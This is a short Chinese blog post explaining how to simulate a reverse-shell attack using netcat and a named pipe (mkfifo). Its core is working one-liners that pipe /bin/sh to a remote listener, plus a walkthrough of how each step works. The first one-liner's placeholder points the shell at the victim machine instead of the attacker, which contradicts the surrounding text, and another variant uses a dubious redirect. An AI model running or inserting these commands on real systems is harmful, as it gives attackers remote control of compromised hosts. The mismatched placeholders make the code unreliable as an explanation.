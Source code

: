 ```yaml
---
title: 通过远程命令反弹shell
categories: technology
tags: [web安全,shell,远程命令执行,nc,linux]
date: 2017-05-19 10:40:33
---
```


## 通过shell命令模拟反弹shell的攻击过程

其中attcker_machine是攻击者的机器，也是最终shell反弹的目标机器。meat_machine是一台受攻击的肉鸡，是shell被反弹的机器。

```shell
# {attacker_machine_ip} 监听2333端口
nc -l -p 2333 -v 
# 反弹shell至{meat_machine_ip} 2333端口
rm /tmp/bd;mkfifo /tmp/bd;cat /tmp/bd | /bin/sh -i 2>&1 | nc {meat_machine_ip} 2333 >/tmp/bd
# 不从stderr传给stdout
rm /tmp/bd;mkfifo /tmp/bd;cat /tmp/bd | /bin/sh -i >&1 | nc {attacker_machine_ip} 2333 > /tmp/bd
```

mkfifo 是创建一个先进先出的文件，整个流程如下：

1. 先在受害机器上创建了一个先进先出的文件bd
2. nc连接控制机，接受控制机的输入，传给bd这个文件
3. cat 将bd文件内容传给/bin/sh 执行
4. `2>&1`是将stderr传给stdout，然后重定向给nc
5. nc通过网络将结果传给了控制机

